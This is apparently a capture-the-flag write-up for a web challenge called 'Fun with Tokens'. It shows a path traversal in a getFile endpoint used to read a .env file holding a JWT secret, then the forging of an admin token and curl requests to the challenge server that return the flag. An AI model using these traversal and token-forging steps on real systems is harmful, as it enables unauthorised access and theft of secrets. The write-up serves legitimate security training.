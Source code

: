 # Fun with Tokens

Visiting the provided website we see some interesting thing:
There are two links:

http://3.142.122.1:9334/login
http://3.142.122.1:9334/adminNames

And comments in the Source:
```
<!-- /admin is where the fun's at XD -->
<!--The secret you seek is in the environment-->
```

Admin names sounds interesting so let's check that first:
There is actually a redirect to a getFile.php interesting.
Opening http://3.142.122.1:9334/getFile?file=admins in a browser provides us a list with admin names:

```
0xd4127c3c
din_djarin11
```

This already looks a lot like there might be LFI possible. We have the hint that there is some secret in the environment so let's try to pull the .env file using the getFile.php:

http://3.142.122.1:9334/getFile?file=.env
```
No such file or directory: /app/public/.env
```

Okay but maybe in the /app directory?

http://3.142.122.1:9334/getFile?file=../.env

```
secret=G00D_s0ld13rs_k33p_s3cret5
```
Sweet! Unfortunately this is not our flag so we have to search further. Let's have at /admin as the hint said that's where the fun is supposed to be.

http://3.142.122.1:9334/admin
```
{"success":false,"message":"Maybe send the token via Headers ... for Authorization?"}
```

This is some kind of API but we are not authorized. It seems like we need a token, we already have a secret_key which is used to sign tokens so this will propably be our attack vector.
We don't have any cookies/tokens yet so let's check our /login page.

For getting the intial token 

```curl -s -i "http://3.142.122.1:9334/login" -d "username=din_djarin11" |grep token```

![header_token](https://user-images.githubusercontent.com/73250884/120975811-495cc780-c78f-11eb-8846-a9fcd65a5263.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJzbnlmciIsImlhdCI6MTYyMzA1MDUyNn0.HcaTRFCnecRpusoNFTupk2ZiH4tCMNwVCrI4tMn2-4Q
```
Let's decrypt it using https://jwt.io

Intiallly it is like this

![jwt.io.png](https://user-images.githubusercontent.com/73250884/120976911-680f8e00-c790-11eb-8b3e-8f58508ca57a.png)

Change the admin to gehr and use the secret code we got.

After changing we get out new token

![jwt_io.png](https://user-images.githubusercontent.com/73250884/120976121-a8bad780-c78f-11eb-919a-b37128069345.png)

Let's send that token to /admin as our authorization header:

```curl http://3.142.122.1:9334/admin -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ"
Hey din_djarin11! Here's your flag: FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```

![image](https://user-images.githubusercontent.com/73250884/120977485-000d7780-c791-11eb-8f69-08841c575b3c.png)

```
FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```
By doing the rot 13 using cyberchef we get the flag https://gchq.github.io/CyberChef/

![image](https://user-images.githubusercontent.com/73250884/120977731-4a8ef400-c791-11eb-83a6-0dcb1613e7fe.png)

```
SHELL{T0k3ns_d0_m4tt3r_4e91af4506f384d460f0f0c6e9e5fe4a}
```
